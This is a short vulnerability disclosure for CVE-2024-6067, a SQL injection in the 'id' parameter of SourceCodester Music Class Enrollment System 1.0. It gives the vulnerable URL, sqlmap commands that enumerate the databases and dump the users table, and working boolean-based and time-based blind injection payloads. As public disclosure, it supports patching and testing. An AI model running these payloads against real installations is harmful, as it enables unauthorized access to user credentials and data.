 ```yaml
---
title: CVE-2024-6067
draft: false
tags:
  - cve
---
```

# Sourecodester Music Class Enrollment System SQL Injection vulnerability

> A vulnerability classified as critical was found in SourceCodester Music Class Enrollment System 1.0. Affected by this vulnerability is an unknown functionality of the file /mces/?p=class/view_class. The manipulation of the argument id leads to sql injection. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-268795.


Affected Software: https://www.sourcecodester.com/php/15362/music-class-enrollment-site-phpoop-free-source-code.html

Vulnerable path: `http://localhost/mces/?p=class/view_class&id=4`

![image](https://github.com/jadu101/CVE/assets/76433661/09db7303-c570-4296-bced-f0cab23d95a1)


Tool Used: SQLmap

Commands to recreate:

`sqlmap 'http://localhost/mces/?p=class/view_class&id=4' --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/7833ceba-4326-4bb0-b454-67962e45c746)


```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=class/view_class&id=4' AND 2160=2160 AND 'CscS'='CscS

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=class/view_class&id=4' AND (SELECT 6865 FROM (SELECT(SLEEP(5)))TZfN) AND 'sHBo'='sHBo
---
```

`sqlmap 'http://localhost/mces/?p=class/view_class&id=4' --batch –dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/290f3bd2-3d3f-474e-b4a1-ae2458edacb7)


`sqlmap 'http://localhost/mces/?p=class/view_class&id=4' --batch -D mces_db -T users –dump`

![image](https://github.com/jadu101/CVE/assets/76433661/5802f597-a725-48b6-beb4-f86bdd959fb2)



